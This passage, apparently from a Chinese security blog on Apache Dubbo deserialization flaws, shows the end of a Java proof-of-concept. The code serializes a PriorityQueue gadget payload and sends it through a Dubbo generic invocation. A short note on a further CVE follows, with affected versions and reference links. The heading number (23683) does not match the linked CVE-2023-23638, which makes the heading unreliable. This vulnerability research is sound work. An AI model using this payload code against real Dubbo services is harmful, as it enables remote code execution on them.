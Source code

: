 ```java
        //序列化
        ByteArrayOutputStream baor = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baor);
        oos.writeObject(priorityQueue);
        oos.close();
        byte[] payload = baor.toByteArray();

        out.writeObject(new Object[] {payload});

        HashMap map = new HashMap();
        map.put("generic", "nativejava");
        out.writeObject(map);
    }
```



### CVE-2023-23683

为了这醋才包的这盘饺子，但是分析到这明显发现是个很鸡肋的洞，同样需要已知接口全限定名，方法名，入参

* 漏洞影响：

2.7.0<=dubbo<=2.7.21

3.0.0<=dubbo<=3.0.13

3.1.0<=dubbo<=3.1.6

不想分析了，很鸡肋

https://alter1125.github.io/2023/03/17/CVE-2023-23638%20Dubbo%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90/



参考：

https://wx.zsxq.com/group/2212251881/topic/814255445121452

https://wx.zsxq.com/group/2212251881/topic/581554451511544

https://alter1125.github.io/2023/03/17/CVE-2023-23638%20Dubbo%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90/

https://xz.aliyun.com/news/11842

https://tttang.com/archive/1730/#toc_cve-2021-30179

